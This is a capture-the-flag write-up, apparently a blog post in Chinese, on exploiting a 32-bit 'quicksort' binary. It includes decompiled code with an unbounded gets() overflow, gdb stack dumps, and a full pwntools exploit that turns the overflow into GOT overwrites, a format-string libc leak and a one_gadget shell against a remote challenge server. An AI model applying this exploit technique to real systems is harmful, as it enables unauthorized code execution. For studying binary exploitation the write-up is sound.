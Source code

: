 # Checksec

```bash
root@aa922ef5677a:~/tmp# checksec ./quicksort 
[*] '/root/tmp/quicksort'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

# Analysis

```c
unsigned int func()
{
  char *num; // ebx
  char s; // [esp+Ch] [ebp-2Ch]
  char v3; // [esp+Dh] [ebp-2Bh]
  char v4; // [esp+Eh] [ebp-2Ah]
  char v5; // [esp+Fh] [ebp-29h]
  char v6; // [esp+10h] [ebp-28h]
  char v7; // [esp+11h] [ebp-27h]
  char v8; // [esp+12h] [ebp-26h]
  char v9; // [esp+13h] [ebp-25h]
  char v10; // [esp+14h] [ebp-24h]
  char v11; // [esp+15h] [ebp-23h]
  char v12; // [esp+16h] [ebp-22h]
  char v13; // [esp+17h] [ebp-21h]
  char v14; // [esp+18h] [ebp-20h]
  char v15; // [esp+19h] [ebp-1Fh]
  char v16; // [esp+1Ah] [ebp-1Eh]
  char v17; // [esp+1Bh] [ebp-1Dh]
  int sum; // [esp+1Ch] [ebp-1Ch]
  int i; // [esp+20h] [ebp-18h]
  int j; // [esp+24h] [ebp-14h]
  char *ptr; // [esp+28h] [ebp-10h]
  unsigned int v22; // [esp+2Ch] [ebp-Ch]

  v22 = __readgsdword(0x14u);
  v3 = 0;
  v4 = 0;
  v5 = 0;
  v6 = 0;
  v7 = 0;
  v8 = 0;
  v9 = 0;
  v10 = 0;
  v11 = 0;
  v12 = 0;
  v13 = 0;
  v14 = 0;
  v15 = 0;
  v16 = 0;
  v17 = 0;
  s = 0;
  sum = 0;
  puts("how many numbers do you want to sort?");
  __isoc99_scanf("%d", &sum);
  getchar();
  ptr = (char *)malloc(4 * sum);
  for ( i = 0; i < sum; ++i )
  {
    printf("the %dth number:", i + 1);
    gets(&s);
    num = &ptr[4 * i];
    *(_DWORD *)num = atoi(&s);
  }
  quicksort((int)ptr, 0, sum - 1);
  puts("Here is the result:");
  for ( j = 0; j < sum; ++j )
    printf("%d ", *(_DWORD *)&ptr[4 * j]);
  puts(&byte_8048AD2);
  free(ptr);
  return __readgsdword(0x14u) ^ v22;
}
```

程序要求输入一个数字sum，然后再输入sum个数字，最后对这些数字快排之后得到结果。

这里漏洞很明显是有一个`gets`，然而显然做不到直接rop。在调试一段时间之后，发现了一个任意地址写的地方：

```
assassinq>> stack 20
0000| 0xffe85300 --> 0xffe8531c --> 0x0 
0004| 0xffe85304 --> 0x1 
0008| 0xffe85308 --> 0xffe85348 --> 0xffe85358 --> 0x0 
0012| 0xffe8530c --> 0x80488c5 (mov    eax,DWORD PTR [ebp-0x1c])
0016| 0xffe85310 --> 0xffe85348 --> 0xffe85358 --> 0x0 
0020| 0xffe85314 --> 0xf77b8010 (<_dl_runtime_resolve+16>:	pop    edx)
0024| 0xffe85318 --> 0xf7782864 --> 0x0 
0028| 0xffe8531c --> 0x0 
0032| 0xffe85320 --> 0x0 
0036| 0xffe85324 --> 0x0 
0040| 0xffe85328 --> 0x0 
0044| 0xffe8532c --> 0x2 
0048| 0xffe85330 --> 0x0 
0052| 0xffe85334 --> 0x0 
0056| 0xffe85338 --> 0x83d0008 --> 0x0 
0060| 0xffe8533c --> 0x9838e200 
0064| 0xffe85340 --> 0x1 
0068| 0xffe85344 --> 0x0 
0072| 0xffe85348 --> 0xffe85358 --> 0x0 
0076| 0xffe8534c --> 0x80489e4 (mov    eax,0x0)
```

在读取数字的`gets`这里停下，查看栈的情况。这里的`0x83d0008`是程序中的`ptr`，然后程序会将我们输入的字符串`atoi`之后，赋给`ptr`指向的地址。在中间还有一个地址存放剩余循环的次数。我们可以通过缓冲区溢出，一开始的数字为我们想要修改的内容，中间存放剩余循环次数，最后放我们要写的地址，就达到了任意地址写的目的。而`canary`又在下面，不会受到影响。

接下来就需要想办法泄漏，n132学长提供了一个思路就是改成`printf`之后直接format string。最后的思路是把`free`改成了`printf`，然后泄漏libc上的地址。这里要注意的一点就是`atoi`返回的值是`signed int`，如果字符串超过了四个字符，那就会返回`0x7fffffff`，所以泄漏的时候找了第六个参数，`%6$p`就不会超过`signed int`。

```
0056| 0xff8348f8 --> 0x804a800 --> 0x7fffffff
```

`free`完之后还需要写`one_gadget`，所以这里想办法再跳回到`func`。想要绕过`canary`肯定是不可能了，所以前面也利用了一次任意写，把`__stack_chk_fail`改成了`func`，这样又能跳回来。

最后写`one_gadget`的时候又遇到了上面`signed int`的问题，这个无法避免了。想到的一个骚思路是用补码，传一个负数进去，就能写上`one_gadget`了。

# Exploit

```python
#!/usr/bin/env python
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
context.terminal = ['tmux', 'sp', '-h']
local = 0
if local:
	p = process('./quicksort')
	libc = ELF('/lib/i386-linux-gnu/libc.so.6')
else:
	p = remote('34.92.96.238', 10000)
	libc = ELF('./libc.so.6')
elf = ELF('./quicksort')
g = lambda x: next(elf.search(asm(x)))
gets_plt = elf.plt['gets']
gets_got = elf.got['gets']
puts_plt = elf.plt['puts'] # 0x8048560
puts_got = elf.got['puts'] # 0x804a02c
free_got = elf.got['free'] # 0x804a018
atoi_got = elf.got['atoi']
printf_got = elf.got['printf']
printf_plt = elf.plt['printf']
func = 0x08048816
buf = 0x0804a000 + 0x800 # 0x0804b000 - 0x100
stack_chk_fail_got = elf.got['__stack_chk_fail']
#gdb.attach(p, '''
#b *0x80489aa
#''')

def write(addr, val, t):
	payload = str(val)
	payload += (0x10 - len(payload)) * '\x00'
	payload += p32(t)
	payload += (0x1C - len(payload)) * '\x00'
	payload += p32(addr)
	p.recvuntil('number:')
	p.sendline(payload)

def overflow(addr, val, t):
	payload = str(val)
	payload += (0x10 - len(payload)) * '\x00'
	payload += p32(t)
	payload += (0x1C - len(payload)) * '\x00'
	payload += p32(addr) + '\x00' * 4
	p.recvuntil('number:')
	p.sendline(payload)

t = 2
p.recvuntil('sort?\n')
p.sendline(str(t))
write(free_got, printf_plt, 2)
write(stack_chk_fail_got, func, 2)
fmt = '%6$p'
overflow(buf, str(int(fmt[::-1].encode('hex'), 16)), 1)
p.recvuntil('0x')
libc_base = int(p.recv(8), 16) - 0x1b3864
success('libc_base = ' + hex(libc_base))
one_gadget = libc_base + 0x3ac62
success('one_gadget = ' + hex(one_gadget))
one_gadget_complement = -(0x100000000 - one_gadget)
success('one_gadget_complement = ' + hex(one_gadget_complement))

p.recvuntil('sort?\n')
p.sendline(str(t))
overflow(stack_chk_fail_got, one_gadget_complement, 1)
p.interactive()
```
